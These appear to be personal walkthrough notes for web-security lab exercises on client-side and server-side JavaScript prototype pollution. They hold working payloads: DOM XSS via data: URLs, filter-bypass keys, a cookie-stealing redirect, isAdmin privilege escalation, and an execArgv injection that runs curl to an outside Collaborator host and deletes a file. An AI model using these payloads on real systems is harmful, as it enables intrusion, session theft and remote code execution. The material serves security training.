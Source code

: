 ### Client-side prototype pollution via browser APIs

In browser, try injecting an arbitrary property via the quert string `/?__proto__[foo]=bar`

In console, enter Object.prototype, and see it says "foo": "bar"

There is a particular JS "searchLoggerConfigurable.js", where you have this code:

```js
   let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
```

It says `transport_url` is unwrittable and unconfigurable, but doesn't define a `value`

So, instead of "bar", we'll use a script alert

`/?__proto__[value]=data:,alert(1);`

---
### DOM XSS via client-side prototype pollution

Validate same as previous exercise, and see there is a JS file "searchLogger.js" with this code:
```js
   let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
```

So, it's the same as previous, but now we need to inject in the transport_url property.
`/?__proto__[transport_url]=data:,alert(1);`

---
### DOM XSS via an alternative prototype pollution vector

In this case, you need to use an alternative payload to trigger the desired behavior: `/?__proto__.foo=bar`

There is a JS "searchLoggerAlternative.js" with this line:
```js
    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

```

That's our sink. The `manager.sequence` is passed to the eval, so let's craft the payload:
1. `/?__proto__.sequence=alert(1)`
2. `/?__proto__.sequence=alert(1)-`

---
### Client-side prototype pollution via flawed sanitization

Try any of this payloads until one works:
```text
/?__proto__.foo=bar
/?__proto__[foo]=bar
/?constructor.prototype.foo=bar
```

There is a file called "deparamSanitized.js" which uses the sanitizeKey() function defined in "searchLoggerFiltered.js" to strip dangerous properties, However, does not apply this recursively. 

Try injecting with one of this:
```text
/?__pro__proto__to__[foo]=bar 
/?__pro__proto__to__.foo=bar 
/?constconstructorructor[protoprototypetype][foo]=bar 
/?constconstructorructor.protoprototypetype.foo=bar`
```

Payload `/?__pro__proto__to__[transport_url]=data:,alert(1);`

---
### Client-side prototype pollution in third-party libraries

Start the DOM invader with the prototype pollution setting ON. 
Click on "Scan for gadgets", and then exploit. 
In the exploit server: 
```js
<script>
location="https://0a68005503b547b58463379a002a0029.web-security-academy.net/#__proto__[hitCallback]=data:alert%28document.cookie%29"
</script>
```

Send to victim. I added a "data:" to the payload, and it worked.

---
### Privilege escalation via server-side prototype pollution

Log in, and send the update form. Intercept it

and add a new property with this value:
`"__proto__": { "foo":"bar" }`

You can see there is an "isAdmin" property in the response. Let's try to change that from "false" to "true".

Replace "foo" -> isAdmin and "bar" ->  true.

Send it, login as admin. Remove carlos account.

---
### Detecting server-side prototype pollution without polluted property reflected

The response is not reflecting the same payload as before "foo" "bar".

Send a request that breaks the json, send it again, and you'll see the modifications has been done, but wasnt reflecting properly when you have a 200 status.

Now that you have a 500, can see the json has the added property.

---
### Bypassing flawed input filters for server-side prototype pollution

Add this payload: `"constructor": { "prototype": { "json spaces":10 } }`
And see there is a difference between the "pretty" and the "raw" tab. You added the 10 spaces, effectively polluting the prototype.

This is your payload: `"constructor": { "prototype": { "isAdmin":true } }`

Remove Carlos account.

---
### Remote code execution via server-side prototype pollution

Test with this:
`"__proto__": { "json spaces":10 }`

Send this: `"__proto__": { "execArgv":[ "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')" ] }` go to "Admin panel" > Run maintenance jobs, and receive it on the collaborator. 

Use this to delete:
`"__proto__": { "execArgv":[ "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')" ] }`